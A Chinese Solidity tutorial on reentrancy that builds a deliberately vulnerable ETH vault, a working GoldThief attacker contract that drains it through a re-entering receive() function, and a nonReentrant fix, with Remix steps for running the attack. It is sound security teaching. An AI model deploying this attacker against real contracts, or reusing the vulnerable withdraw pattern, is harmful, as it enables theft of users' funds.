

# 重入攻击

Day: Day 20
ID: 20
原文: https://builder-hub.notion.site/FortKnox-Contract-1db5720a23ef80a4a303e3f1d63f8f3a?pvs=25
状态: 完成
译者: 连接站 月球
难度等级: 中级

你已经路行长远走到现在这里。你学会了如何编写智能合约来**保存资金**、**限制访问**，甚至**把行为委托给其它合约**。

你即将进入智能合约安全的真正战场。

# 产品需求说明书

## 用户流程



## 数据库

| Contract | Type | Bases |
| --- | --- | --- |
| **GoldVault** | Implementation |  |
| └ goldBalance | Public | view |
| └ deposit | Public ❗️ | 🛑 |
| └ vulnerableWithdraw | Public ❗️ | 🛑 |
| └ safeWithdraw | Public ❗️ | 🛑 |
| └ nonReentrant | Modifier |  |
| **IVault** | Interface |  |
| └ deposit | External |  |
| └ vulnerableWithdraw | External |  |
| └ safeWithdraw | External |  |
| **GoldThief** | Implementation | IVault |
| └ targetVault | Public | view |
| └ owner | Public | view |
| └ attackCount | Public | view |
| └ attackingSafe | Public | view |
| └ attackVulnerable | Public ❗️ | 🛑 |
| └ attackSafe | Public ❗️ | 🛑 |
| └ receive | External | 🛑 |
| └ stealLoot | Public ❗️ | 🛑 |
| └ getBalance | Public ❗️ | view |

**图例说明：**

- ❗️ = 可修改状态
- 🛑 = 可接收ETH
- view = 只读函数

# 细节解释

让我们来谈谈一个连高手也会中招的经典陷阱——**重入（reentrancy）**。

---

## 🧠 场景：数字版诺克斯堡

想象你在构建一个超安全的**数字保险库**——把它当作加密世界的诺克斯堡。

用户可以把代币化的黄金（或 ETH）存进来，想取就来取。直观、干净、简单。

但随后……

一个聪明的攻击者出现了。

Ta 发现这样一个点：当金库在执行提现操作把黄金发回给某人时——并且金库没有把余额更新时——攻击者可以**偷偷再进入**合约并要求更多的资金。

突然间，原本的一次 1 ETH 提现，变成一次性被汲取出**多倍 ETH**。

这就是臭名昭著的 **重入攻击**——正是 2016 年 **DAO黑客 攻击**中导致**数千万美元**被盗的那类漏洞。

---

## 🔍 那么“重入”到底是什么？

想象一台自动售货机。

你投币、按键、等待零食吐出。机器先检查你的余额，**然后**给出零食，**最后**更新你的余额。

现在想象有个狡猾的漏洞……

就在机器给你零食之后——**但在**更新余额**之前**——你又按了一次按钮。然后再按一次。再按一次。

每一次，机器仍然认为你有余额……因为它还没来得及更新余额。

结果是**无限免费零食。**

这就是智能合约世界中的 **重入**。

---

## 🕳️ 代码里到底发生了什么？

把售货机的故事翻译成 Solidity：

1. 你调用合约的 **withdraw**（提现）函数。
2. 合约使用 `.call{value: ...}()` 给你发送 ETH。
3. 但你——很狡猾——写了一个 **fallback**（回退）函数（一个接收 ETH 时会自动触发的函数）。
4. 在那个回退里，你**再次调用 withdraw**。
5. 原合约还没来得及更新你的余额……所以它仍然认为你还有钱可拿。
6. 它又发送了更多 ETH。
7. 你的回退再次调用 withdraw。
8. 如此反复……直到合约被掏空。

---

## 🔁 为什么叫 “Reentrancy（重入）”？

因为你在第一次调用尚未结束前**再次进入**同一个函数。

该函数还在执行重要操作（例如更新余额）的一半时，你从后门溜进来再次运行它——而它仍在工作中。

就像打开银行金库，递给人钱，**还没关上金库门**，有人又冲进来要钱——一次又一次。

---

## 🔨 你将构建什么（像黑客一样行动）

要真正理解重入，我们不会只是解释完理论然后过去。

我们要做得更好。

我们将**构建一个可运行的合约**，**模拟一次真实的黑客攻击**，然后**逐步修补漏洞**。你会从开发者……变成黑客……再变成防守者——一气呵成。

下面分解步骤。

---

### 🔐 `GoldVault.sol` – 你的数字诺克斯堡

这是你的主合约——金库。

- 用户可以**存入 ETH**到金库。把它看作存储数字黄金。
- 之后，Ta们可以随时**提现**这些黄金。
- 我们会先实现一个**基础的提现函数**——没有保护措施、没有防护。
- 然后我们会演示攻击者如何**滥用这个漏洞**来掏空合约。
- 在你看到它被攻破后，我们会用一个简单但强力的 `nonReentrant` 修饰符来**锁定它**——这是一个自制的“单次进入”安全锁。

最终，你的合约将从“开放”变为“诺克斯堡级别的安全”。

---

### 🦹‍♂️ `GoldThief.sol` – 攻击者合约

这个很有趣。你将实际扮演反派一会儿。

- 此合约旨在**利用 `GoldVault` 这个合约的弱点**。
- 它会使用狡猾的fallback（回退）函数**在提现过程中重入金库**——一次又一次。
- 你会近距离观察这次攻击：它是如何运作、如何抽走资金，以及速度有多快。
- 然后——我们在应用修复程序后运行攻击……并**看它失败**。

没有什么比看着自己的合约被攻破然后阻止攻击者更能教会安全性。

---

完成后，你不仅会*理解*重入是什么——

你会知道**它如何工作**、**如何利用它**，以及最重要的**如何防范它**。

这将把你从只会写 Solidity 升级为会**保卫 Solidity**的开发者。

我们开始构建你的第一个数字金库——并把它变得牢不可破。🔒

## 💰 `GoldVault.sol` – 易受攻击与安全的金库

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

contract GoldVault {
    mapping(address => uint256) public goldBalance;

    // Reentrancy lock setup
    uint256 private _status;
    uint256 private constant _NOT_ENTERED = 1;
    uint256 private constant _ENTERED = 2;

    constructor() {
        _status = _NOT_ENTERED;
    }

    // Custom nonReentrant modifier — locks the function during execution
    modifier nonReentrant() {
        require(_status != _ENTERED, "Reentrant call blocked");
        _status = _ENTERED;
        _;
        _status = _NOT_ENTERED;
    }

    function deposit() external payable {
        require(msg.value > 0, "Deposit must be more than 0");
        goldBalance[msg.sender] += msg.value;
    }

    function vulnerableWithdraw() external {
        uint256 amount = goldBalance[msg.sender];
        require(amount > 0, "Nothing to withdraw");

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "ETH transfer failed");

        goldBalance[msg.sender] = 0;
    }

    function safeWithdraw() external nonReentrant {
        uint256 amount = goldBalance[msg.sender];
        require(amount > 0, "Nothing to withdraw");

        goldBalance[msg.sender] = 0;
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "ETH transfer failed");
    }
}

```

这个合约是我们诺克斯堡实验的核心。

它像一个数字金库——用户可以**存入 ETH**，并在之后**提现Ta们的余额**。

但有个转折：

它有**两个提现函数**——一个**易受重入攻击**，另一个已经通过**自定义锁加固**。

### 合约包含：

- 一个 `deposit()` 函数，允许用户存 ETH。
- 一个 `vulnerableWithdraw()` 函数——这就是出错的地方。它在更新用户余额之前发送 ETH，给攻击者留下可乘之机。
- 一个 `safeWithdraw()` 函数——这个函数使用自制的 `nonReentrant` 修饰符来阻止任何递归攻击尝试，并在提现期间安全地锁住金库。

你会看到同一个合约在两种截然不同的行为下的表现——以及为什么在 Solidity 中按**正确顺序**写安全逻辑至关重要。

我们来深入解析代码。👇

---

## 🧱合约设置

在最上方，我们声明智能合约：

```solidity

contract GoldVault {

```

这是我们的金库——一个简单的合约，用户可以**存入** ETH（看作“黄金”），并在之后**提现**。但在底层，我们增加了一个重要的安全机制，在有人使用它时**把门锁上**——以防重入攻击。

接下来看看关键的状态变量。

---

### 🗃️ 状态变量

```solidity

mapping(address => uint256) public goldBalance;

```

这个映射记录每个用户在金库中存了多少 ETH（即黄金）。

当用户调用 `deposit()` 时，Ta们的余额会上升。

当Ta们调用 `withdraw()` 时，余额会下降。

---

下面是让我们合约能抵抗重入的那部分：

```solidity

uint256 private _status;
uint256 private constant _NOT_ENTERED = 1;
uint256 private constant _ENTERED = 2;

```

我们来拆解一下：

### 🔐 重入锁系统

- `_status` 是一个私有变量，用来告诉我们敏感函数（如 `safeWithdraw`）是否**正在被执行**。
- `_NOT_ENTERED`（值为 `1`）表示：「函数当前未被使用——可以使用」。
- `_ENTERED`（值为 `2`）表示：「已经有人在使用这个函数——阻止再次使用！」

基本上，我们是**为该函数上构建一个数字锁**。

在允许某人执行像提现这样敏感的操作之前，我们会检查：

> “这个函数已经有人在执行了吗？”
> 

如果是，我们**立即阻止**，以防任何偷偷的二次进入。

如果不是，我们**把开关翻到 `_ENTERED`**，做完工作，然后**再把它设回 `_NOT_ENTERED`**。

这个锁在我们的 `nonReentrant` 修饰符中被激活——稍后我们会看它是如何工作的。

---

### 🏗️ 构造函数

```solidity

constructor() {
    _status = _NOT_ENTERED;
}

```

这会设置重入防护的初始状态。合约部署时，它处于 `_NOT_ENTERED` 状态。

---

## 🛡️ `nonReentrant` 修饰符 —— 守门者

```solidity

modifier nonReentrant() {
    require(_status != _ENTERED, "Reentrant call blocked");
    _status = _ENTERED;
    _;
    _status = _NOT_ENTERED;
}

```

这个修饰符是保护合约免受重入攻击的**核心防线**。

把它想象成 **“禁止进入” 标志：**当有人走进房间时它立刻升起的，并且只有等人离开后才会降下。

我们一步步来看看它如何工作：

---

### 1. **检查锁：**

```solidity

require(_status != _ENTERED, "Reentrant call blocked");

```

这行表示：

> “是否已经有人在使用这个函数？如果是——立刻停止执行。”
> 

如果 `_status` 已经是 `_ENTERED`，说明另一次调用正在进行中。这可能是重入攻击的迹象，所以我们用 revert **立刻锁住它**。

---

### 2. 上**锁：**

```solidity

_status = _ENTERED;

```

这将函数状态标记为“被调用”。

我们基本上是在说：

> “我们进入了函数中——把门锁上。”
> 

这会阻止任何嵌套调用再次进入，直到我们完成工作。

---

### 3. **执行函数逻辑：**

```solidity

_;

```

这里是实际的函数体执行位置——无论是 `safeWithdraw()` 还是其它受 `nonReentrant` 保护的函数。Solidity 会在执行时把 `_` 替换为函数代码。

---

### 4. **解锁：**

```solidity

_status = _NOT_ENTERED;

```

一旦所有事情完成——在所有 ETH 转账完成、余额更新完成之后——我们**重置锁**，以便未来的调用可以正常进行。

---

### 🧠 为什么这有效

这个修饰符确保**一次只有一个调用**可以进入受保护的函数。

所以即使外部合约（例如攻击者的fallback回退函数）尝试回调金库——它会遇到锁并**被立即锁定**。

这是一个超级简单但超级强大的模式——它是你在Solidity 中防御重入攻击的第一道真正护盾。

---

## 🪙 deposit()

```solidity

function deposit() external payable {
    require(msg.value > 0, "Deposit must be more than 0");
    goldBalance[msg.sender] += msg.value;
}

```

简单且安全。

- 用户把 ETH 发到这个函数。
- 用户余额会增加。
- 合约就持有了用户的资金，直到用户提现为止。

---

## ❌ `vulnerableWithdraw()` —— 哪里出了问题

```solidity

function vulnerableWithdraw() external {
    uint256 amount = goldBalance[msg.sender];
    require(amount > 0, "Nothing to withdraw");

    (bool sent, ) = msg.sender.call{value: amount}("");
    require(sent, "ETH transfer failed");

    goldBalance[msg.sender] = 0;
}

```

乍一看，这完全没问题。你检查余额、发送 ETH，然后把用户余额设为 0。

但那个小细节——**操作顺序**——正是陷阱所在。

我们逐步看会发生什么。

---

### 🧪 场景：门口的攻击者

假设一个**恶意合约**调用 `vulnerableWithdraw()`。但与普通用户不同，这个合约有一个狡猾的 `receive()` 函数——当它收到 ETH 时 **会自动调用 `vulnerableWithdraw()`**。

发生的事情如下：

### 1. **检查用户余额**

```solidity

uint256 amount = goldBalance[msg.sender];
require(amount > 0, "Nothing to withdraw");

```

很好——用户在金库里有 1 ETH。✅

---

### 2. **把 ETH 发回给用户**

```solidity

(bool sent, ) = msg.sender.call{value: amount}("");

```

我们把 ETH 发回给 `msg.sender`。

但有个转折：如果 `msg.sender` 是一个合约地址，它的 `receive()` 函数会在接收 ETH 时被触发。而在那个 `receive()` 函数中，它**再次调用 `vulnerableWithdraw()`**。

于是……在我们还未更新用户余额之前，我们又回到了同一个发送ETH的函数内部。

---

### 3. **再次提现……再一次……**

由于我们还没执行这一行：

```solidity

goldBalance[msg.sender] = 0;

```

攻击者的余额**看起来依然显示为 1 ETH**。

因此，当检查重入调用者的余额时，Ta会再次通过检查条件。

金库**再次发送 1 ETH**。

接着 `receive()` 又被触发。

循环继续。

这个循环在**合约把攻击者的余额置为 0 之前就把金库掏空了**。

---

### ⚠️ 为什么这很危险

这就是教科书式的**重入攻击**：

- 在更新余额状态之前进行了外部调用 ✅
- 攻击者在金库执行发送过程中重入 ✅
- 单一余额被多次提现导致资金被榨干 ✅

---

## ✅ `safeWithdraw()` —— 配备 `nonReentrant` 防护

```solidity

function safeWithdraw() external nonReentrant {
    uint256 amount = goldBalance[msg.sender];
    require(amount > 0, "Nothing to withdraw");

    goldBalance[msg.sender] = 0;
    (bool sent, ) = msg.sender.call{value: amount}("");
    require(sent, "ETH transfer failed");
}

```

这是我们提现函数的**安全版本**——它把重入攻击挡在了门外。

我们来拆解**发生了什么变化**以及**为什么它有效**。

---

### 🧱 第一步修复：在发送 ETH 之前更新余额状态

```solidity

goldBalance[msg.sender] = 0;

```

现在这一行在我们发送任何 ETH 之前执行。这意味着提现一开始我们就把用户余额清零。

即使攻击者尝试**重新进入提现函数**，Ta们也会看到余额为 `0`——并且提现将立即失败。

单靠这个改变就**打破了漏洞循环**，该循环在易受攻击版本会掏空合约。

---

### 🔒 第二步修复：`nonReentrant` 修饰符

```solidity

function safeWithdraw() external nonReentrant { ... }

```

除了修正操作顺序，我们还在函数上加了 `nonReentrant` 修饰符，作为额外的防线。

它的作用：

- 一旦有人进入函数，就**锁住**函数
- 如果同一地址（或任何外部合约）试图再次调用——即使通过fallback回退函数——也会**立即被阻止**
- 函数执行完毕后解锁

即使我们忘了提前把余额置零，这个锁也能独立阻止攻击。

---

### ✅ 遵循 “Checks-Effects-Interactions” 模式

这个函数现在遵循一个**著名的 Solidity 最佳实践**，称为 **Checks-Effects-Interactions（检查-状态变更-交互）** 模式：

1. **Check**（检查条件）
    
    `require(amount > 0, "Nothing to withdraw");`
    
2. **Effect**（改变状态）
    
    `goldBalance[msg.sender] = 0;`
    
3. **Interaction**（与外部合约交互）
    
    `msg.sender.call{value: amount}("");`
    

为什么这个顺序重要：

当我们与外部世界交互（那是我们无法控制的）时，我们自己的合约状态已经安全更新。

这避免了一大类漏洞——而不仅仅是重入。

## 🦹‍♂️ `GoldThief.sol` —— 重入利用合约（仅供学习）

> ⚠️ 免责声明：
> 
> 
> 该合约纯属**教学用途**。
> 
> 我们**不**鼓励以任何有害或恶意方式使用或部署此合约。目标是帮助你理解 **重入攻击的工作原理**——以便你学会**防范**，而不是去利用它们。
> 

---

要真正理解重入攻击，仅仅加固你的合约还不够——你还需要**像攻击者那样思考**。

这就是这个合约的意义所在。

`GoldThief.sol` 模拟一个恶意行为者。它旨在针对 `GoldVault` 合约内的 `vulnerableWithdraw()` 函数，通过在金库更新攻击者余额之前不断重复调用该函数，来**抽取比应允的更多的资金**。

我们还加入了一个对 `safeWithdraw()` 版本的测试调用，以展示当正确保护到位时攻击会如何**失败**。

---

### 🧪 这个合约的作用

- 它通过简单接口连接到金库。
- 像普通用户一样向金库存入 ETH。
- 当它调用 `vulnerableWithdraw()` 时，会利用 Solidity 的 `receive()` 函数进入一个漏洞循环——在原始调用完成之前重复调用 `vulnerableWithdraw()`。
- 在安全版本中，相同的攻击尝试会因为 `nonReentrant` 锁而被挡住。

这是一个亲手观察攻击如何发生、理解其底层机制、并有信心在你自己的合约中构建防御的实操方式。

来看完整代码：👇

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

interface IVault {
function deposit() external payable;
function vulnerableWithdraw() external;
function safeWithdraw() external;
}

contract GoldThief {
IVault public targetVault;
address public owner;
uint public attackCount;
bool public attackingSafe;

constructor(address _vaultAddress) {
    targetVault = IVault(_vaultAddress);
    owner = msg.sender;
}

function attackVulnerable() external payable {
    require(msg.sender == owner, "Only owner");
    require(msg.value >= 1 ether, "Need at least 1 ETH to attack");

    attackingSafe = false;
    attackCount = 0;

    targetVault.deposit{value: msg.value}();
    targetVault.vulnerableWithdraw();
}

function attackSafe() external payable {
    require(msg.sender == owner, "Only owner");
    require(msg.value >= 1 ether, "Need at least 1 ETH");

    attackingSafe = true;
    attackCount = 0;

    targetVault.deposit{value: msg.value}();
    targetVault.safeWithdraw();
}

receive() external payable {
    attackCount++;

    if (!attackingSafe && address(targetVault).balance >= 1 ether && attackCount < 5) {
        targetVault.vulnerableWithdraw();
    }

    if (attackingSafe) {
        targetVault.safeWithdraw(); // This will fail due to nonReentrant
    }
}

function stealLoot() external {
    require(msg.sender == owner, "Only owner");
    payable(owner).transfer(address(this).balance);
}

function getBalance() external view returns (uint256) {
    return address(this).balance;
}
}
```

---

## 🎯 接口设置 —— 与金库对话

```solidity

interface IVault {
    function deposit() external payable;
    function vulnerableWithdraw() external;
    function safeWithdraw() external;
}

```

在 `GoldThief` 合约能与金库交互之前，它需要知道**有哪些函数可用**——以及如何调用它们。

这就是这个 **interface（接口）** 的用途。

---

### 🧠 Solidity 中的接口是什么？

把它想象成餐厅的**菜单**。

你不需要知道厨师如何做每道菜——你只需要知道：

- 菜单上有什么菜（函数名）
- 需要什么材料（参数）
- 会得到什么（返回类型，如果有的话）

在 Solidity 中，`interface` （接口）基本上是一个**轻量级的合约定义**，只包含 **函数签名**——没有实现细节。

---

### 🧩 为什么需要它？

我们的 `GoldThief` 合约想要：

- 调用 `deposit()` 来发送 ETH
- 调用 `vulnerableWithdraw()` 来触发攻击
- 调用 `safeWithdraw()` 来测试金库是否会阻挡

但我们不需要把整个 `GoldVault` 源代码导入进来——那没必要。

相反，我们定义这个 `IVault` 接口来告诉编译器：

> “目标金库有这三个函数。我想跟它们交互。”
> 

一旦声明了接口，我们就可以把金库的合约地址当作 `IVault` 接口的实例，并直接调用这些函数。

---

## 📦 状态变量

```solidity

IVault public targetVault;
address public owner;
uint public attackCount;
bool public attackingSafe;

```

这些变量储存攻击者的“记忆”——目标合约是谁，谁在控制，以及当前是攻击**易受攻击版本**还是**安全版本**。

逐一解释如下：

---

### 🏹 `IVault public targetVault`

`targetVault`是**我们要攻击的金库地址**，用 `IVault` 接口包装。

接口让我们能够调用金库的公共函数，比如 `deposit()`、`vulnerableWithdraw()`、`safeWithdraw()`——即便我们没有完整源码。

就像把遥控器对准电视——我们不关心电视内部如何构造，只在乎按键（函数名）能否达到预期效果。

---

### 🧑‍💼 `address public owner`

存储**部署攻击合约的地址**——“主谋”。

只有 `owner` 被允许触发攻击或提取被盗资金，防止其Ta人在部署后劫持该合约。

这是基本的访问控制——只有原始攻击者能按下红色按钮。

---

### 🔁 `uint public attackCount`

记录我们**重入循环的次数。**

为什么这很重要？

因为如果不限制，攻击可能会无限循环（或直到 gas 用尽）。我们用计数器来限制fallback回退函数重复调用金库的最大次数——在这个例子中，最多 5 次。

---

### 🕵️‍♂️ `bool public attackingSafe`

这个标志记录我们当前攻击的是哪一个版本的金库：

- 若 `attackingSafe` 为 `false`，我们在攻击 **vulnerableWithdraw()**
- 若为 `true`，我们在测试 **safeWithdraw()** ——预计会**失败**

这帮助我们在 `receive()` 函数内决定在重入循环中使用哪一个方法。

---

## 🔧 构造函数 —— 布局舞台

```solidity

constructor(address _vaultAddress) {
    targetVault = IVault(_vaultAddress);
    owner = msg.sender;
}

```

这是 `GoldThief` 合约部署时运行的**第一个函数**——它设置攻击者开始所需的一切。

我们来拆解它的作用：

---

### 🎯 `targetVault = IVault(_vaultAddress);`

部署 `GoldThief` 时，我们传入想攻击的金库地址——这可以是任何遵循 `IVault` 接口的已部署的合约地址。

这行代码把要攻击的地址告知`GoldThief`合约：

> “这是我们要对话的金库——下面我们会怎样与之交互。”
> 

通过将要攻击的金库地址转换为 `IVault`，我们可以调用目标上的 `deposit()`、`vulnerableWithdraw()`、`safeWithdraw()`。

---

### 🧑‍💼 `owner = msg.sender;`

这行设置**所有者**——记录部署 `GoldThief` 的人(或脚本)的地址。

这里 `msg.sender` 即启动攻击合约的人/脚本。

这对以下事项很重要：

- 确保只有 `owner` 能触发攻击（`attackVulnerable()` / `attackSafe()`）
- 防止未经授权访问 `stealLoot()` 等函数

就像把红色发射按钮的控制权指定给某个人——其Ta人按不到。

---

## 💣 `attackVulnerable()` —— 开始抢劫

---

```solidity

function attackVulnerable() external payable {
    require(msg.sender == owner, "Only owner");
    require(msg.value >= 1 ether, "Need at least 1 ETH to attack");

    attackingSafe = false;
    attackCount = 0;

    targetVault.deposit{value: msg.value}();
    targetVault.vulnerableWithdraw();
}

```

这是**正式发动攻击**的地方。攻击者调用该函数发起一个滥用金库脆弱逻辑的连锁反应。

我们来逐行解释背后真实机制的运作原理。

---

### 🧑‍💼 访问控制

```solidity

require(msg.sender == owner, "Only owner");

```

只有合约的原始攻击者（或该合约的部署者）被允许启动攻击。这是基本的安全层，防止Ta人劫持合约。

---

### 💰 最低 ETH 要求

```solidity

require(msg.value >= 1 ether, "Need at least 1 ETH to attack");

```

攻击者必须在调用该函数时发送**至少 1 ETH**——这是初始的“诱饵”存款，让金库以为这是正常用户行为。

---

### 🔁 重置状态

```solidity

attackingSafe = false;
attackCount = 0;

```

我们确保合约知道这是一次**针对易受攻击版本**的攻击，而不是对安全版本的测试。

并重置循环计数器以便从头开始。

---

### 🎣 诱饵：向金库存入 ETH

```solidity
targetVault.deposit{value: msg.value}();

```

我们像普通用户一样向金库存入合法的 ETH。这会更新金库内部映射中的我们的余额——使我们有资格提现这些 ETH。

此时，金库安全地持有我们的 1 ETH……或者说，它“认为”是安全的。

---

### 🚪 入口点：触发提现

```solidity
 targetVault.vulnerableWithdraw();

```

现在我们调用金库的易受攻击提现函数。

该函数会：

- **检查我们的余额**
- **把 ETH 发送给我们**
- **之后**才把我们的余额设为零

这就是**致命错误**——就在金库把 ETH 发出时，我们合约的 `receive()` 被触发了……

## ⚡ `receive()` —— 重入魔术发生处

```solidity
 receive() external payable {
    attackCount++;

    if (!attackingSafe && address(targetVault).balance >= 1 ether && attackCount < 5) {
        targetVault.vulnerableWithdraw();
    }

    if (attackingSafe) {
        targetVault.safeWithdraw(); // This will fail
    }
}

```

这个函数是**攻击循环的核心**——就是金库被同一恶意行为者一次又一次欺骗的地方。

但关键是：攻击者**从未直接调用这个函数**。

相反，当合约**接收到 ETH** 时，Solidity 会**自动触发**它。

---

### 🔁 我们来走一遍发生的流程

当金库在 `withdraw()` 中把 ETH 发回时，Solidity 会在接收合约上寻找两种情况中的一种：

- 一个 `receive()` 函数（像现在案例中的）
- 或者（若没有 `receive()`）一个 `fallback()` 回退函数

因为我们定义了 `receive()`，所以**每次收到 ETH 时**它都会被触发。

---

### 🧠 攻击逻辑内部解析

把这个函数里的逻辑拆开看：

---

### 1. 🧮 统计攻击循环次数

```solidity
attackCount++;

```

每运行一次这个函数，我们就把计数器加一。这有助于我们**限制重入次数**，避免无限循环并耗尽 gas。

---

### 2. 🔁 如果我们目标是易受攻击金库……

```solidity

if (!attackingSafe && address(targetVault).balance >= 1 ether && attackCount < 5) {
    targetVault.vulnerableWithdraw();
}

```

如果处于 **“易受攻击模式”**：

- 我们检查金库是否还有 ETH 可偷
- 我们检查是否未达到攻击次数上限
- 如果两个条件都满足——**再次发起攻击**

这就是**重入循环**的实际运作：

- 金库把 ETH 发给我们 → 触发 `receive()`
- `receive()` 再次调用 `vulnerableWithdraw()`
- 金库再发更多 ETH → 再触发 `receive()`
- 如此循环……

每次，金库仍然**认为我们尚未提现**——因为它还没来得及更新余额。

---

### 3. 🔒 如果我们在测试安全金库……

```solidity

if (attackingSafe) {
    targetVault.safeWithdraw(); // This will fail
}

```

在“安全模式”下，我们试图重入 `safeWithdraw()`——但它会失败。

为什么？

因为：

- `nonReentrant` 修饰符在起作用
- 我们试图重入时，修饰符会检测到函数正在运行
- 并立刻阻止重入

攻击在此处**直接夭折**，不会再有资金被发送。

## 🚫 `attackSafe()` —— 想利用被加固金库的失败尝试

```solidity

function attackSafe() external payable {
    require(msg.sender == owner, "Only owner");
    require(msg.value >= 1 ether, "Need at least 1 ETH");

    attackingSafe = true;
    attackCount = 0;

    targetVault.deposit{value: msg.value}();

    // This will fail due to the reentrancy guard
    targetVault.safeWithdraw();
}

```

这个函数模拟相同的攻击策略——但这次目标是金库的**安全版本**：`safeWithdraw()`。

与 `vulnerableWithdraw()` 不同，这个函数**受到了良好保护**。

我们来看会发生什么：

---

### 🛡️ 设置安全攻击尝试

- 与 `attackVulnerable()` 一样，我们：
    - 检查调用者是否为攻击者（`owner`）
    - 要求至少 1 ETH 来模拟真实存款
    - 将 `attackingSafe` 标记为 `true`，以便回退函数知道我们在测试安全路径
    - 重置攻击计数器

---

### 💰 向金库存入 ETH

```solidity

targetVault.deposit{value: msg.value}();

```

我们向金库存入 ETH 以获取余额——与之前相同。此时，金库以为我们是合法用户。

---

### 🚪 尝试提现并重入

```solidity

targetVault.safeWithdraw();

```

这里差别就显现出来了。

当调用 `safeWithdraw()` 时：

1. 金库检查我们的余额
2. 它将我们的余额设为 **0**
3. 它尝试把 ETH 发回给我们
4. `GoldThief` 合约的 `receive()` 函数被触发

然后我们在 `receive()` 中试图再次调用 `safeWithdraw()` 重入……

---

### 🔒 但这次我们碰到了墙的阻挡

当我们试图重入 `safeWithdraw()` 时，`nonReentrant` 修饰符检查 `_status` 标记，发现该函数已经在执行中。

它立刻抛出错误：

```
Reentrant call blocked

```

就这样——**攻击在启动前失败**。

没有第二次进入。

没有循环。

没有盗窃。

只是一个干脆利落的停止。

---

### 🧠 这为什么重要

这个函数是**安全性的证明**——它表明通过几行额外的保护（例如重入守护和正确的操作顺序），我们就能将严重漏洞扼杀在萌芽中。

仅会写智能合约还不够——你还必须知道如何**保护它们**。

---

### 🏃‍♂️ `stealLoot()`

```solidity

function stealLoot() external {
    require(msg.sender == owner, "Only owner");
    payable(owner).transfer(address(this).balance);
}

```

攻击结束后，这个函数允许攻击者把**被盗来的的全部 ETH** 从`GoldThief` 合约**提现**到Ta们的私人钱包。只有合约所有者可以调用它。

---

### 🧾 `getBalance()`

```solidity

function getBalance() external view returns (uint256) {
    return address(this).balance;
}

```

一个简单的只读函数，返回 `GoldThief` 合约当前持有的 ETH 余额。用来查看从金库中抽走了多少资金。

---

### 🛑 这为什么重要

这个合约向你精确演示了重入攻击的工作原理。

- 攻击者在**函数执行中段**取得控制权
- 在余额更新之前
- 并多次抽取相同的 ETH

## 🧪 如何在 Remix 中模拟重入攻击

我们把黑客帽戴上（出于好目的），一步步走过易受攻击与安全两种情形。

---

### 🔨 第一步：在 Remix 中设置文件

在 Remix中：

- 在文件浏览器中**创建两个新文件**：
    - `GoldVault.sol` – 粘贴完整的金库合约代码
    - `GoldThief.sol` – 粘贴攻击者合约和接口代码

---

### ⚙️ 第二步：编译两个合约

- 点击 **Solidity Compiler** 选项卡（左边栏）。
- 确保使用 **编译器版本 0.8.19** 或兼容版本。
- 点击 **Compile GoldVault.sol**
- 然后点击 **Compile GoldThief.sol**

你应该看到 ✅ “Compilation successful”。

---

### 🚀 第三步：部署金库（诺克斯堡）

1. 去到 **Deploy & Run Transactions** 选项卡。
2. 在合约下拉框中选择 `GoldVault`。
3. 点击 **Deploy**。
4. Remix 会部署合约并在左侧面板显示它。
5. 复制 **金库合约地址**——你需要把它传给小偷合约。

我们称它为：

`vaultAddress = 0x...`

---

### 🦹 第四步：部署小偷合约

1. 把合约下拉框切换到 `GoldThief`。
2. 在构造函数输入字段中粘贴 `vaultAddress`的地址值。
    - 确保它放在引号中，例如 `"0x123..."`
3. 点击 **Deploy**。

现在小偷合约知道要攻击谁了。

---

### 💣 第五步：攻击易受攻击的提现操作

1. 展开已部署的 **GoldThief** 合约。
2. 找到函数 `attackVulnerable()`。
3. 输入 **1 ether** 作为 value（`1000000000000000000`），点击 **transact**。

🎬 观察交易日志发生的事情：

- 攻击者会递归调用 `vulnerableWithdraw()` 多次。
- 金库的余额会急剧下降。
- 一切都是因为合约在转账前没有更新余额。

---

### 🧮 第六步：确认赃款

- 在小偷合约中点击 `getBalance()`
- 你会看到多个ETH被抽到小偷合约中

尝试调用 `stealLoot()` 把它转到攻击者的钱包。

---

### 🧷 第七步：尝试攻击安全版本（并看它失败）

1. **重新部署 GoldVault** 合约以重置状态
2. 重新部署 **GoldThief**并传入新的金库地址
3. 这次，使用 1 ETH调用 `attackSafe()` 

🧱 这个交易会**失败**。

为什么？因为 `safeWithdraw()` 使用了：

- **`nonReentrant` 修饰符** 防止重入
- 它在**发送资金前**更新余额

你已经通过最佳实践**阻止了一次重入攻击**。

## 🔒 金库已加固。黑客被击败。

一个看似简单的“存取”系统，变成了一堂真实的 Solidity 安全课。

